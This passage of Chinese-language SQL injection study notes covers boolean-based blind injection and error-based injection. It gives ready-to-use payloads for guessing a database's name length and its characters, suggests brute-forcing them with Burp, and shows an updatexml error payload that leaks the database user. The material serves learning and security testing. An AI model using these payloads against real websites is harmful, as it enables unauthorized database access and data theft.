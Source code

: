   * left(string, len) & right(string, len) : 从左或从右取长为len的子串

* limit

  * limit pos,len :返回从0开始的len个值

* ascii() & char()

  * ascii() 转ascii码，char()转字符

#### 布尔盲注

只会返回yes/no

* **猜测数据库长度**

  ```mysql
  # payload
  1' and length(database())>=1#
  1' and length(database())>=2#
  ....
  1' and length(database())>=n#
  # 当n-1返回真，n返回假时，说明数据库长度为n-1
  ```

* **猜测数据库名**

  ```mysql
  # substr——截取字符
  # payload
  1' and substr(database(),1,1)='a'#
  1' and substr(database(),1,1)='b'#
  ...
  1' and substr(database(),1,1)='z'#
  # 可利用burp爆破
  # ascii为字符对应编码
  1' and ascii(substr(database(),1,1))=97#
  1' and ascii(substr(database(),1,1))=98#
  ....
  # 可利用burp爆破
  ```

  

#### 报错盲注

* 仅代入进行sql查询而没有一个合适的数据返回点（不会回显databse()等信息)
* 页面上回显数据的报错信息

##### updatexml()

* 用于更新xml
* 非法传参故意报错
* 原理过程同extractvalue()

```
# payload
1' and updatexml(1,concat(0x7e,(select user()),0x7e),1)#
# 回显 XPATH syntax error: '~root@~'
```
